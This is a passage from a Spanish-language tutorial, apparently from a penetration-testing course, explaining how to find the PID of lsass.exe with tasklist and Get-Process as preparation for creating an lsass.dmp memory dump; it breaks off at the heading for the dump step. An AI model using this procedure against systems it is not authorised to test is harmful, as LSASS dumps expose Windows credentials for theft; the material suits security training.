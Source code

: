 **Pasos:**

1. Antes de emitir el comando para crear el archivo de volcado, debemos determinar qué **ID de proceso (PID)** está asignado a `lsass.exe`. Esto se puede hacer desde `cmd` o `PowerShell`:

### Encontrar el PID de LSASS en `cmd`

Desde `cmd`, podemos emitir el comando:

```bash
tasklist /svc
```

y encontrar `lsass.exe` y su ID de proceso en el campo PID.

```plaintext
C:\Windows\system32> tasklist /svc

Nombre de imagen                 PID Servicios
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

### Encontrar el PID de LSASS en PowerShell

Desde PowerShell, podemos emitir el comando:

```powershell
Get-Process lsass
```

y ver el ID de proceso en el campo `Id`.

```plaintext
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

Una vez que tengamos el **PID** asignado al proceso LSASS, podemos crear el archivo de volcado.

### Creando `lsass.dmp` usando PowerShell
